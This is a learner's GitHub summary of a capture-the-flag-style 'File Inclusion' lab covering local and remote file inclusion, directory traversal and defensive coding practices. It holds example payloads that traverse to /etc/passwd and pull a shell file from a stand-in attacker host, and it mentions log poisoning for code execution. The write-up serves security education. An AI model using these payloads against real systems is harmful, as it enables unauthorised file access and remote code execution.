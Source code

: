 # 📂 File Inclusion Room – Summary

## 📝 Room Overview
In the **File Inclusion** room, I learned about file inclusion vulnerabilities and how attackers can use them to read sensitive files or even gain remote code execution. The room introduced **Local File Inclusion (LFI)**, **Remote File Inclusion (RFI)**, and **directory traversal** techniques, and showed how poor handling of user-supplied input in file paths can expose an application.

---

## 🔍 What I Learned

### 1. Local File Inclusion (LFI)
- **Lesson:** I learned how attackers can exploit an application that dynamically loads files (e.g., `page=home.php`) by modifying parameters to include local files.
- **Example:** Supplying `page=../../../../etc/passwd` can expose sensitive system files.
- **Takeaway:** LFI can be used to read logs, configuration files, and sometimes escalate to RCE (e.g., via log poisoning).

---

### 2. Remote File Inclusion (RFI)
- **Lesson:** I discovered how some applications allow external URLs to be loaded as files.
- **Example:** Supplying `page=http://attacker.com/shell.txt` can let an attacker execute malicious code.
- **Takeaway:** RFI is more severe than LFI and can lead directly to remote code execution if `allow_url_include` is enabled.
<img width="512" height="295" alt="image" src="https://github.com/user-attachments/assets/a27ab862-591e-4dd6-992a-364a473d6259" />

---

### 3. Directory Traversal
- **Lesson:** I practiced using `../` sequences to escape from restricted directories and access files outside the intended folder.
- **Example:** Requesting `page=../../../../etc/hosts` bypassed the intended restriction.
- **Takeaway:** Directory traversal is often combined with LFI to retrieve sensitive files.

---

### 4. Defensive Awareness
- **Key lessons:**  
  - Never trust user input for file paths.  
  - Implement whitelisting for allowed files instead of dynamically including user input.  
  - Disable dangerous PHP functions like `allow_url_fopen` and `allow_url_include`.  
  - Use secure coding practices to prevent directory traversal (`realpath()`, input sanitization).  

---

## 🎯 Key Skills Gained
- Identifying and exploiting **LFI** and **RFI** vulnerabilities.  
- Using **directory traversal** techniques to access restricted files.  
- Leveraging LFI for potential escalation (e.g., log poisoning, code injection).  
- Understanding how to secure applications against file inclusion flaws.  
